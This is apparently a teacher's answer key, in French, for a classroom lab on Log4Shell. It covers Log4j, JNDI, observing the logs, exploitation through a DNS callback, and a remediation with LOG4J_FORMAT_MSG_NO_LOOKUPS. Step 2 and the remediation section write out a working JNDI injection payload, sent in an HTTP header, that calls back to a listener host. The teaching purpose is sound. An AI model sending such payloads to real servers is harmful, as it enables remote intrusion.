

# Correction — TP Express Log4Shell

## 🧠 Introduction : 5 minutes de questions

1. **Qu'est-ce que Log4j et pourquoi est-il autant utilisé en entreprise ?**
   C'est une bibliothèque open-source de journalisation (logging) très populaire en Java. Elle permet aux développeurs d'enregistrer des événements, des erreurs et des informations de debug dans des fichiers de log. Elle est omniprésente car elle est très performante, flexible et considérée comme un standard dans l'écosystème Java.
   
2. **À quoi sert le protocole JNDI dans l'écosystème Java ?**
   JNDI (*Java Naming and Directory Interface*) est une API qui permet aux applications Java de découvrir et d'interroger des données ou des objets via différents services de nommage ou d'annuaire (comme le DNS, LDAP, ou RMI).
   
3. **Pourquoi la vulnérabilité Log4Shell a-t-elle fait trembler internet fin 2021 ?**
   Parce que Log4j est utilisé partout (des millions d'applications, serveurs, routeurs, etc.), que la faille est extrêmement triviale à exploiter (une simple requête HTTP suffit sans avoir besoin d'être authentifié), et qu'elle permet une exécution de code à distance (RCE - *Remote Code Execution*) totale, donnant le contrôle du serveur à l'attaquant.

---

## 🚀 Étape 1 : Lancement et observation des logs

**Commande pour faire apparaître "One for all, All for Hedi" :**
```bash
curl http://localhost:8081 -H 'X-Api-Version: One for all, All for Hedi'
```
*Explication : L'application loggue aveuglément le contenu du header HTTP `X-Api-Version`. Cela prouve que l'attaquant contrôle parfaitement la chaîne de caractères qui est transmise à Log4j.*

---

## 🎯 Étape 2 : L'Exploitation via DNS Callback

> 💡 **Indice à donner aux élèves s'ils bloquent :** "N'oubliez pas que depuis un conteneur Docker, pour joindre votre machine locale, l'adresse est `host.docker.internal`. Et regardez sur quel port le script Python a été lancé (8053)."

**Commande pour exploiter la faille (remplacer `VOTRE_PRENOM`) :**
```bash
curl http://localhost:8081 -H 'X-Api-Version: ${jndi:dns://host.docker.internal:8053/VOTRE_PRENOM}'
```
*Explication : Au moment d'écrire le log, Log4j interprète la syntaxe `${...}`. Il fait alors appel à l'API JNDI. JNDI déclenche une requête DNS vers `host.docker.internal` sur le port `8053` (là où écoute notre script python) pour résoudre le sous-domaine `VOTRE_PRENOM`. Le serveur Python affiche alors le prénom.*

---

## 🎨 Étape 3 : Schématisation

Voici le schéma de principe de l'attaque :



---

## 🛡️ Étape 4 : Remédiation

Une fois le conteneur Docker relancé avec la variable `-e LOG4J_FORMAT_MSG_NO_LOOKUPS=true`, et le serveur DNS relancé manuellement :
- Si l'on relance la commande d'attaque (le `curl` avec le payload JNDI).
- **Dans les logs de l'application :** Le payload s'affiche en texte brut : `X-Api-Version: ${jndi:dns://host.docker.internal:8053/PRENOM}`.
- **Requête DNS :** Le DNS ne reçoit **plus rien**.
- **Conclusion :** Log4j ne cherche plus à interpréter dynamiquement ce qui se trouve entre `${...}`. La faille est neutralisée. L'application est protégée sans avoir touché au code Java.

---

## 📝 Étape 5 : Conclusion (Explication type)

**Ce qu'il faut retenir :**
Log4Shell est une vulnérabilité liée à un excès de fonctionnalités dans une bibliothèque d'apparence inoffensive (les logs). Lorsqu'une donnée contrôlée par l'attaquant (comme un header HTTP) est enregistrée, Log4j évalue son contenu. Si ce contenu comporte la balise `${jndi:...}`, Log4j va forcer le serveur à se connecter à une ressource externe (DNS, LDAP, etc.). 
Le danger vient du fait qu'en utilisant des protocoles comme LDAP, le serveur peut aller télécharger et exécuter silencieusement une classe Java malveillante depuis le serveur de l'attaquant, compromettant totalement l'infrastructure.
